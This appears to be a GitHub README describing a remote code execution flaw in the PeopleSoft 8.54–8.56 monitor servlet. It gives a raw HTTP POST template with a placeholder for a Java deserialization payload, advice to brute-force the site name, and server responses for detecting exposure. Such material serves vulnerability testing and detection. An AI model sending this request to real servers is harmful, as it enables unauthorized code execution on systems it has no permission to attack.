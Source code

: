 The RCE vulnerability present in monitor service of PeopleSoft 8.54, 8.55, 8.56.  
```
POST /monitor/%SITE_NAME% HTTP/1.1
Host: PeopleSoft:PORT
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Cookie:a=aa

§JAVA_SERIAL§
```
%SITE_NAME% - is a PeopleSoft "name" to get it you can use some information disclosure or brute force.
information for automation detection:
1. If monitor component deployed and you don't know %SITE_NAME% then will get this type of error
```
<h2>Site name is not valid. Check your URL syntax and try again.</h2>
```

2. If %SITE_NAME% is true then you will get this message
```
PeopleSoft

Ping Test for Monitor Servlet

Ping successful. Site %SITE_NAME% is valid.
```


3. If monitor don't deployed then you will get this message
```
Error 404--Not Found

From RFC 2068 Hypertext Transfer Protocol -- HTTP/1.1:

10.4.5 404 Not Found

The server has not found anything matching the Request-URI. No indication is given of whether the condition is temporary or permanent.

If the server does not wish to make this information available to the client, the status code 403 (Forbidden) can be used instead. The 410 (Gone) status code SHOULD be used if the server knows, through some internally configurable mechanism, that an old resource is permanently unavailable and has no forwarding address.
```
